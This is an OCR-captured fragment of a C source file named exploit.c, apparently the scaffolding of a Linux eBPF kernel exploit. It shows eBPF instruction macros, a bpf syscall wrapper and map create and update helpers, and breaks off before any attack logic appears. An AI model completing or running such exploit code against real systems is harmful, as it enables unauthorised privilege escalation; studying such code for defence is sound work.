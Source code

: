 ```exploit.c
    .code  = BPF_JMP | BPF_OP(OP) | BPF_K,      \
    .dst_reg = DST,                             \
    .src_reg = 0,                               \
    .off   = OFF,                               \
    .imm   = IMM })
#define BPF_EXIT_INSN()                         \
  ((struct bpf_insn) {                          \
    .code  = BPF_JMP | BPF_EXIT,                \
    .dst_reg = 0,                               \
    .src_reg = 0,                               \
    .off   = 0,                                 \
    .imm   = 0 })
#define BPF_LD_ABS(SIZE, IMM)                   \
  ((struct bpf_insn) {                          \
    .code  = BPF_LD | BPF_SIZE(SIZE) | BPF_ABS, \
    .dst_reg = 0,                               \
    .src_reg = 0,                               \
    .off   = 0,                                 \
    .imm   = IMM })
#define BPF_ALU64_REG(OP, DST, SRC)             \
  ((struct bpf_insn) {                          \
    .code  = BPF_ALU64 | BPF_OP(OP) | BPF_X,    \
    .dst_reg = DST,                             \
    .src_reg = SRC,                             \
    .off   = 0,                                 \
    .imm   = 0 })
#define BPF_MOV64_IMM(DST, IMM)                 \
  ((struct bpf_insn) {                          \
    .code  = BPF_ALU64 | BPF_MOV | BPF_K,       \
    .dst_reg = DST,                             \
    .src_reg = 0,                               \
    .off   = 0,                                 \
    .imm   = IMM })

int bpf_(int cmd, union bpf_attr *attrs) {
  return syscall(__NR_bpf, cmd, attrs, sizeof(*attrs));
}

int array_create(int value_size, int num_entries) {
  union bpf_attr create_map_attrs = {
      .map_type = BPF_MAP_TYPE_ARRAY,
      .key_size = 4,
      .value_size = value_size,
      .max_entries = num_entries
  };
  int mapfd = bpf_(BPF_MAP_CREATE, &create_map_attrs);
  if (mapfd == -1)
    err(1, "map create");
  return mapfd;
}

int array_update(int mapfd, uint32_t key, uint64_t value)
{
  union bpf_attr attr = {
    .map_fd = mapfd,
    .key = (uint64_t)&key,
    .value = (uint64_t)&value,
    .flags = BPF_ANY,
  };
  return bpf_(BPF_MAP_UPDATE_ELEM, &attr);
}

int array_update_big(int mapfd, uint32_t key, char* value)
```